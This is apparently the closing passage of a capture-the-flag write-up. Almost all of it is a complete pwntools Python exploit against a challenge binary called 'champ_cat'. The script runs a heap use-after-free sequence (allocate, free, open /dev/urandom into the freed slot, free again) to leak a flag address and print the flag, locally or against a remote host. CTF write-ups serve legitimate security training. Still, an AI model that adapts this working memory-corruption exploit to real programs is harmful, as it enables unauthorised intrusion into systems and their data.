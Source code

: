 Well, this worked like a charm. Let's further clear out the input and the final exploit becomes (removing all unnecessary functions):

```py:exploit.py
#!/usr/bin/env python3

from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
encode = lambda e: e if type(e) == bytes else str(e).encode()
getleak = lambda delim: int(io.recvregex(delim+b"([^;]*)\n").split()[-1], 16)
def recvlinenafter(d): io.recvuntil(encode(d)); return io.recvline()

exe = "./champ_cat"
elf = context.binary = ELF(exe)
libc = elf.libc
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()
if args.GDB: gdb.attach(io, "b *main")

def open_file(slot, name, sz):
	io.sendlineafter(b">", b"n")
	io.sendlineafter(b":", encode(slot))
	io.sendlineafter(b":", encode(name))
	io.sendlineafter(b":", encode(sz))

def read_flag():
	io.sendlineafter(b">", b"f")
	leak = getleak(b"is ")
	info("flag @ %#x" % leak)

def print_list():
	io.sendlineafter(b">", b"l")
	io.recvuntil(b"you go : ")
	flag = io.recvuntil(b"}").decode()
	info("FLAG: %s" % flag)

def allocate_buffer(sz, data):
	io.sendlineafter(b">", b"m")
	io.sendlineafter(b":", encode(sz))
	leak = getleak(b": ")
	info("cursed buffer @ %#x" % leak)
	io.sendlineafter(b":", encode(data))

def free_buffer(): io.sendlineafter(b">", b"d")

allocate_buffer(0x100, "ashfaq-the-goat")
free_buffer()
open_file(0, "/dev/urandom", 0x100)
free_buffer()
read_flag()
print_list()
```
